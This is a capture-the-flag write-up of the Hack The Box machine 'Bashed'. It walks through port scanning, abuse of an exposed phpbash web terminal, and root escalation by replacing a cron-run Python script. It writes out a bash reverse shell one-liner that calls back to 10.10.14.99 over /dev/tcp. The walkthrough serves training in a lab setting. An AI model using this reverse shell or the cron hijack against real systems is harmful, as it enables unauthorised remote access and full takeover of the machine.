 # @author:M3tr1c_r00t
## Bashed!
![Bashed](https://user-images.githubusercontent.com/99975622/202862039-e78a24cc-0f68-40f4-a49d-75a9ffd2fede.png)

### Enumeration
Step 1: nmap and Gobuster 
![Screenshot_2022-11-16_20_23_00](https://user-images.githubusercontent.com/99975622/202862058-77be6473-4c70-4736-88de-554dcfb1fb2a.png)
Only one port is open. So lets visit it.
![Screenshot_2022-11-16_20_24_37](https://user-images.githubusercontent.com/99975622/202862155-cfc96543-4ebd-459d-96e0-703855abf6ba.png)
The site was working on a feature known as phpbash. Which is kind of an emulation of the terminal but in a site format.

After interacting for a while I found a way that i could use to get a reverse shell.
I created a reverse shell file bash script...
![Screenshot_2022-11-16_20_25_50](https://user-images.githubusercontent.com/99975622/202862582-4286437c-3d8f-4eec-85bb-56c5820099da.png)
echo "bash -c'bash -i >& /dev/tcp/10.10.14.99/1234 0>&1'" > reverse.sh
![Screenshot_2022-11-16_20_26_09](https://user-images.githubusercontent.com/99975622/202862671-8251b9ce-40d6-4039-858d-61ebd57f5a23.png)
And we got our reverse shell!

We can now read the user flag.
### Priv Esc
looking around in our the user's file system, we find a folder 'scripts'. 
In it there are two files.

![Screenshot_2022-11-16_20_27_49](https://user-images.githubusercontent.com/99975622/202862861-494c426e-6b98-4e95-9f46-83c2cb3f9d0a.png)
On checking out the two files, it seems like the test.py is being executed in a cron cycle....
![Screenshot_2022-11-16_20_27_55](https://user-images.githubusercontent.com/99975622/202862962-4ad54918-7bad-480e-b974-407c570252ab.png)
We can replace the file with a python reverse shell coz the script is being run by the root user.
![Screenshot_2022-11-16_20_29_36](https://user-images.githubusercontent.com/99975622/202863235-dff171b4-886d-4a31-af62-eb69e51bb403.png)
You can find this code from pentestmonkey's cheetsheet.

![Screenshot_2022-11-16_20_30_29](https://user-images.githubusercontent.com/99975622/202863295-c4e83c3a-d45e-4d25-a910-7908d0b0db5a.png)
We open a listener and we get a reverse shell as root!

Get your root flag and done!

### Socials
@instagram:https://instagram.com/Metric_r00t
<br> Twitter:https://twitter.com/M3tr1c_root
